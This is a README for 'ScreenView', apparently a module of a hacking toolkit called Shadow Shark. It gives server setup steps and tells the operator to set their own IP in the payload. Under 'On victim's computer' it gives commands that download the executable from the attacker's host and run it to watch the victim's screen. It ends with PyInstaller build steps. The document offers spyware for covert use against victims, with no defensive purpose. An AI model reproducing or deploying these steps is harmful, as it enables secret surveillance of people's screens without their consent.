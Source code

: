 # ScreenView
Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```
### Arch
```
$ sudo pacman -S git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```

## Usage
### ScreenView.py
This module can run on Windows and MacOS. To configure the payload go to line 40 and replace IP with your IP.
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, ect)
$ ScreenView.(exe, app, ect) --time (time in minutes to see the victim's screen)
```

## Compilation
This module must be compiled on a Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Windows computer, Wine environment or MacOS computer.
$ pip install pyinstaller
$ pyinstaller --onefile --icon icon.ico ScreenView.py
